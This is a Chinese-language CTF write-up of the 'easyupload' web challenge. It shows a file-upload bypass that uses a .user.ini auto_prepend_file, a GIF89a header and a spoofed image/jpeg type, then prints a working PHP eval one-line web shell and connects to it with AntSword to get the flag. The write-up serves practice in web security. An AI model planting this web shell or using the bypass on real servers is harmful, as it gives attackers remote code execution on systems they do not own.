






攻防世界easyupload做题笔记

<!-- more -->

## 前言

记录以下攻防世界Web新手题easyupload的做题过程

### 解法

利用.user.ini配置文件绕过

.user.ini中两个中的配置就是auto_prepend_file和auto_append_file。这两个配置的意思就是：我们指定一个文件（如1.jpg），那么该文件就会被包含在要执行的php文件中（如index.php），相当于在index.php中插入一句：require(./1.jpg)。这两个设置的区别只是在于auto_prepend_file是在文件前插入，auto_append_file在文件最后插入。

先写一个.user.ini配置文件

文件内容如下：

<div align=center></div>

注意要加 **GIF89a** 。通过加一个jpeg的文件头，以此来混淆文件的类型

将该.user.ini配置文件上传，并用burpsuite抓包拦截。

修改post请求里上传文件的类型，改为 **image/jpeg**。因为网站不让传图片之外的文件，修改之后网站那边就会把.user.ini看成jpeg图片文件了。

<div align=center></div>

forward一下哎，不出问题应该成功上传

然后，写一个一句话木马的文件,我这里用的代码是：
```
GIF89a
<?= eval($_POST['cmd']);?>
```

前面**GIF89a**也是用来假冒jpeg文件的，下面的php代码就是一句话木马

写完之后，修改文件类型为jpg。注意文件名一定要是：a.jpg （看你.user.ini写的jpg是什么名字，就命名什么名字）

都写完之后把**a.jpg文件**上传

<div align=center></div>

可以看到成功上传了，关注一下上传的位置

用蚂剑连接到这个位置，url如下`http://61.147.171.105:55300/uploads/index.php`

这里要定位到`index.php`文件的位置，因为**index.php**文件网站的默认网页

所以uploads位置的默认网页就是`uploads/index.php`

<div align=center></div>

连接的密码就是一句话木马的中的参数

连接成功后，找到flag文件

<div align=center></div>

打开就可以看到flag

<div align=center></div>

cyberpeace{aa884231d79d5c568f98019a254038e1}


## 结语

.uer.ini绕过方法的应用
